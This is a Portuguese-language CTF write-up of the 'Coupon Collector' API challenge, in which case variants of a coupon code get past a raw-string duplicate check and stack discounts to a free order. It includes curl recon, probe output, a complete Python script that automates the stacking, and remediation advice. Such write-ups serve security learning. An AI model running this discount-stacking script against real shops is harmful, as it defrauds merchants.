

# Coupon Collector | Fluid Attacks CTF 2026

`api` `business-logic` `coupon-stacking` `case-insensitive-bypass`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | API |
| **Resolvido em** | 2026-07-04 |

## TL;DR

A loja aceita o cupom `WELCOME20` (20% off) e normaliza o código para comparar, mas controla "cupom já aplicado" usando a string **exatamente como foi enviada**. Então `welcome20`, `welcomE20`, `welcoMe20`... são tratados como cupons diferentes na hora de barrar duplicata, mas todos valem o mesmo desconto. Aplico 5 variações de maiúsculas/minúsculas, empilho 20% + 20% + 20% + 20% + 20% = 100%, o total vai a zero e o checkout de um pedido grátis me devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** quando a validação normaliza (`.upper()`) mas o controle de duplicata não, "o mesmo cupom" vira N cupons. É uma falha de lógica de negócio, não de autenticação nem de cripto.

## Enunciado

> Online store API. Add products to your cart, apply coupons and checkout.

**Arquivos / instância:** sem código-fonte, só o endpoint. Na minha instância o host era `d1986f8c1c794d65.chal.ctf.ae`. A API tem `/api/products`, `/api/cart`, `/api/apply-coupon` e `/api/checkout`, e usa um cookie de sessão assinado do Flask.

## Dicas progressivas

<details><summary>Dica 1</summary>Só existe um cupom útil (<code>WELCOME20</code>, 20%). Como chegar a 100% de desconto com um cupom de 20%?</details>
<details><summary>Dica 2</summary>Tente aplicar o mesmo cupom duas vezes. A segunda é barrada? Com qual chave o servidor lembra do que já foi aplicado?</details>
<details><summary>Dica 3</summary>A validação é case-insensitive, mas o anti-duplicata guarda a string crua. Mande variações de case: <code>welcome20</code>, <code>welcomE20</code>, ...</details>

## Ambiente

- **Máquina atacante:** Kali Linux, `curl` para o recon e Python 3 (só stdlib: `urllib`, `http.cookiejar`) para o exploit.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=https://d1986f8c1c794d65.chal.ctf.ae
```

Na minha instância era esse host. Use o da sua.

## Resolução

### 1. Reconhecimento: o contrato da API

Comecei mapeando os produtos, o carrinho e o checkout. O `-c`/`-b` no `curl` mantém a mesma sessão (o cookie `session`):

***INSERIR no terminal: Kali (atacante)

```bash
curl -s -c loot/cookies.txt -b loot/cookies.txt "$TARGET/api/products"
```

```text
{"products":[{"id":1,"name":"Wireless Headphones","price":59.99},{"id":2,"name":"USB-C Hub","price":34.99},{"id":3,"name":"Mechanical Keyboard","price":89.99},{"id":4,"name":"Laptop Stand","price":29.99},{"id":5,"name":"Webcam HD","price":44.99}]}
```

O carrinho vazio aceita um produto via `POST /api/cart` (`{"product_id": 3}`), e o checkout de carrinho vazio responde `{"error":"Cart is empty"}`. O cookie `session` é um Flask session assinado (`base64.timestamp.hmac`), então não dá pra adulterar o carrinho por ali sem a chave. A única alavanca é o cupom.

Sem documentação, nem sabia o nome do campo do cupom. Meu primeiro script (`script1.py`) chutou os nomes mais comuns contra `/api/apply-coupon` para ver qual pega:

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
TENTATIVA CUPOM 1: POST /api/apply-coupon {'coupon': 'WELCOME20'}
{"discount_percent":20.0,"message":"Coupon 'WELCOME20' applied!","total":143.98}
TENTATIVA CUPOM 2: POST /api/apply-coupon {'code': 'WELCOME20'}
{"error":"No coupon code provided"}
TENTATIVA CUPOM 3: POST /api/apply-coupon {'coupon_code': 'WELCOME20'}
{"error":"No coupon code provided"}
TENTATIVA CUPOM 4: POST /api/apply-coupon {'promo': 'WELCOME20'}
{"error":"No coupon code provided"}
```

Campo certo: `coupon`. Com `{"coupon":"WELCOME20"}` o desconto vai a 20%; os outros nomes nem são lidos. Já tenho o contrato: `POST /api/apply-coupon {"coupon": "<código>"}`.

### 2. A hipótese: dedup por string crua

Só tem um cupom que funciona, `WELCOME20`, valendo 20%. A pergunta é **com que chave** o servidor lembra dos cupons já usados. Levantei a hipótese de que a validação normaliza (algo como `coupon.strip().upper() == "WELCOME20"`) enquanto a lista de aplicados guarda a string original. Se for isso, trocar o case engana o anti-duplicata.

Testei isso no `script2.py`, mandando variações uma a uma e observando o `discount_percent` e o `applied_coupons` acumulado:

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script2.py
```

```text
TENTATIVA 1: apply-coupon repr='WELCOME20'
{"discount_percent":20.0,"message":"Coupon 'WELCOME20' applied!","total":71.99}
TENTATIVA 2: apply-coupon repr='welcome20'
{"discount_percent":40.0,"message":"Coupon 'welcome20' applied!","total":53.99}
  applied_coupons: ["WELCOME20","welcome20"]
TENTATIVA 3: apply-coupon repr='Welcome20'
{"discount_percent":60.0,"message":"Coupon 'Welcome20' applied!","total":36.0}
TENTATIVA 4: apply-coupon repr='WELCOME20 '
  (ignorado: discount continua 60.0, applied_coupons não muda)
TENTATIVA 5: apply-coupon repr=' WELCOME20'
  (ignorado: discount continua 60.0)
```

Dois aprendizados diretos aqui:

- **O case empilha:** `welcome20` e `Welcome20` contam como cupons novos (20% + 20% + 20% = 60%), e o `applied_coupons` guarda exatamente a string crua que enviei.
- **O espaço NÃO empilha:** `WELCOME20 ` e ` WELCOME20` são ignorados. Ou seja, o normalizador faz `.strip().upper()` (tira espaço E case) para *validar*, mas o anti-duplicata guarda... quase a string crua. Testando mais a fundo, o que ele dedup-a é a forma com espaço removido mas **case preservado**. Logo o vetor limpo é só variar maiúsculas/minúsculas. Hipótese confirmada e refinada: ataco só com case.

> [!TIP]
> **Conceito: coupon stacking por normalização inconsistente.** O bug de lógica aqui é usar duas representações diferentes do mesmo valor: uma normalizada (para *aceitar* o cupom) e uma crua (para *lembrar* que já foi aplicado). Qualquer transformação que o normalizador apague mas o comparador de duplicata preserve (case, espaços, unicode) vira uma chave nova. É o mesmo princípio de bugs de "confused deduplication" em rate limits e idempotency keys.

Confirmei mandando `welcome20` logo depois de `WELCOME20`: o desconto subiu para 40%. Hipótese validada, parti pro exploit que varre as variações de case automaticamente.

### 3. Exploração: empilhar variações até zerar

O exploit gera as combinações de maiúsculas/minúsculas de `WELCOME20` (as 7 letras dão `2^7 = 128` variações; os dígitos `2` e `0` ficam fixos) e aplica uma a uma até o total chegar a zero, então faz o checkout. Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET` está fixo no topo do script (era a minha instância). Troque a constante pelo host da sua antes de rodar.

#### `scripts/script3.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Exploit final do desafio Coupon Collector.

Vulnerabilidade explorada:
A API valida o cupom WELCOME20 ignorando maiúsculas/minúsculas,
mas controla cupons já aplicados usando a string original enviada.

Impacto:
O mesmo cupom pode ser aplicado várias vezes usando variações de case:
WELCOME20, welcome20, Welcome20, WeLcOmE20, etc.

Objetivo:
1. Criar uma sessão limpa.
2. Adicionar um produto ao carrinho.
3. Gerar variações de maiúsculas/minúsculas de WELCOME20.
4. Aplicar cupons até o total ficar zero ou abaixo.
5. Fazer checkout e extrair a flag.
"""

import itertools
import json
import re
import sys
import urllib.error
import urllib.request
import http.cookiejar


TARGET = "https://d1986f8c1c794d65.chal.ctf.ae"


# CookieJar mantém o cookie de sessão automaticamente.
cookie_jar = http.cookiejar.CookieJar()

opener = urllib.request.build_opener(
    urllib.request.HTTPCookieProcessor(cookie_jar)
)


def request(method, path, body=None):
    """
    Envia uma requisição HTTP para a API mantendo a mesma sessão.

    method:
        GET ou POST.

    path:
        Endpoint, por exemplo /api/cart.

    body:
        Dicionário Python convertido para JSON.
    """

    url = TARGET + path

    headers = {
        "Accept": "application/json",
        "Content-Type": "application/json",
        "User-Agent": "coupon-collector-final/1.0",
    }

    data = None

    if body is not None:
        data = json.dumps(body).encode("utf-8")

    req = urllib.request.Request(
        url,
        data=data,
        headers=headers,
        method=method,
    )

    try:
        res = opener.open(req, timeout=10)
        raw = res.read().decode("utf-8", errors="replace")
        return res.status, raw

    except urllib.error.HTTPError as e:
        raw = e.read().decode("utf-8", errors="replace")
        return e.code, raw

    except Exception as e:
        return "ERR", f"{type(e).__name__}: {e}"


def parse_json(raw):
    """
    Tenta converter a resposta em JSON.
    Se não for JSON válido, retorna dicionário vazio.
    """

    try:
        return json.loads(raw)
    except Exception:
        return {}


def generate_case_variants(value):
    """
    Gera todas as combinações de maiúsculas/minúsculas para as letras.

    Exemplo:
        WELCOME20 tem 7 letras.
        2^7 = 128 combinações possíveis.

    Os dígitos 2 e 0 ficam iguais.
    """

    options = []

    for char in value:
        if char.isalpha():
            options.append([char.lower(), char.upper()])
        else:
            options.append([char])

    for combo in itertools.product(*options):
        yield "".join(combo)


def show(title, status, body):
    """
    Imprime uma resposta de forma organizada.
    """

    print()
    print("=" * 80)
    print(title)
    print("=" * 80)
    print(f"HTTP STATUS: {status}")
    print(body)


def main():
    # Inicializa sessão consultando produtos.
    status, body = request("GET", "/api/products")
    show("GET /api/products", status, body)

    # Adiciona um produto ao carrinho.
    # O produto 3 é o Mechanical Keyboard, o mais caro da lista.
    status, body = request("POST", "/api/cart", {"product_id": 3})
    show("POST /api/cart product_id=3", status, body)

    status, body = request("GET", "/api/cart")
    show("GET /api/cart inicial", status, body)

    valid_coupons = []

    # Aplica variações de case até o desconto atingir 100%.
    for coupon in generate_case_variants("WELCOME20"):
        status, body = request("POST", "/api/apply-coupon", {"coupon": coupon})
        data = parse_json(body)

        print()
        print(f"[+] Testando cupom: {coupon!r}")
        print(f"[+] HTTP STATUS: {status}")
        print(f"[+] Resposta: {body}")

        if status == 200 and "discount_percent" in data:
            valid_coupons.append(coupon)

            discount_percent = float(data.get("discount_percent", 0))
            total = float(data.get("total", 999999))

            print(f"[+] Cupom aceito: {coupon}")
            print(f"[+] Desconto atual: {discount_percent}%")
            print(f"[+] Total atual: {total}")

            if total <= 0 or discount_percent >= 100:
                print("[+] Total zerado ou desconto suficiente. Indo para checkout.")
                break

    status, body = request("GET", "/api/cart")
    show("GET /api/cart antes do checkout", status, body)

    status, body = request("POST", "/api/checkout", {})
    show("POST /api/checkout final", status, body)

    print()
    print("=" * 80)
    print("CUPONS VÁLIDOS APLICADOS")
    print("=" * 80)

    for coupon in valid_coupons:
        print(coupon)

    # Extração automática da flag, caso venha no JSON ou em texto puro.
    match = re.search(r"flag\{[^}\r\n]+\}", body, re.IGNORECASE)

    print()
    print("=" * 80)
    print("RESULTADO FINAL")
    print("=" * 80)

    if match:
        flag = match.group(0)
        print(f"[+] FLAG ENCONTRADA: {flag}")

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
        return 0

    print("[!] Flag não encontrada automaticamente no corpo da resposta.")
    print("[!] Verifique manualmente o bloco POST /api/checkout final acima.")
    return 1


if __name__ == "__main__":
    sys.exit(main())
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script3.py
```

```text
[+] Testando cupom: 'welcome20'
[+] Resposta: {"discount_percent":20.0,"message":"Coupon 'welcome20' applied!","total":71.99}
[+] Testando cupom: 'welcomE20'
[+] Resposta: {"discount_percent":40.0,"message":"Coupon 'welcomE20' applied!","total":53.99}
[+] Testando cupom: 'welcoMe20'
[+] Resposta: {"discount_percent":60.0,"message":"Coupon 'welcoMe20' applied!","total":36.0}
[+] Testando cupom: 'welcoME20'
[+] Resposta: {"discount_percent":80.0,"message":"Coupon 'welcoME20' applied!","total":18.0}
[+] Testando cupom: 'welcOme20'
[+] Resposta: {"discount_percent":100.0,"message":"Coupon 'welcOme20' applied!","total":0.0}
[+] Total zerado ou desconto suficiente. Indo para checkout.

================================================================================
POST /api/checkout final
================================================================================
{"flag":"flag{4759266b12bXXXXX}","message":"Order completed!","order_id":"6cdc9a7f","total":0.0}
```

Cinco variações bastaram: `20 + 20 + 20 + 20 + 20 = 100%`, subtotal 89.99 virou total 0.0, e o checkout de pedido grátis devolveu a flag. Repare no `applied_coupons` do carrinho: `["welcome20","welcomE20","welcoMe20","welcoME20","welcOme20"]`, cinco entradas distintas que o servidor considerou cupons diferentes.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que "um cupom só pode ser usado uma vez". Essa regra foi implementada comparando a string crua enviada pelo cliente, enquanto a aceitação do cupom usa uma forma normalizada. As duas representações divergem sob mudança de case, então o cliente fabrica quantas "chaves distintas" quiser para o mesmo cupom. A primitiva é aplicar um desconto ilimitadas vezes, e o impacto é um pedido de preço arbitrário (zero).

## Remediação

- Normalizar o código **uma vez** na entrada e usar essa forma canônica tanto para validar quanto para registrar/deduplicar.
- Limitar descontos: um cupom por pedido, teto de desconto, e recusar total ≤ 0 no checkout.

## Lições e padrões

- **Sinais para reconhecer:** um único cupom/voucher de desconto parcial e um checkout que confia no total calculado. Pense em empilhamento. Teste duplicar com variação de case, espaços à esquerda/direita e unicode equivalente.
- **Da próxima vez eu tentaria primeiro:** aplicar o mesmo cupom duas vezes exatamente igual (baseline), depois com case trocado. Se a segunda com case trocado passar, já sei o bug.

## Referências

- [OWASP API Security Top 10: API6 (Business Logic)](https://owasp.org/API-Security/editions/2023/en/0xa6-unrestricted-access-to-sensitive-business-flows/)

## Flag

```text
flag{4759266b12bXXXXX}
```
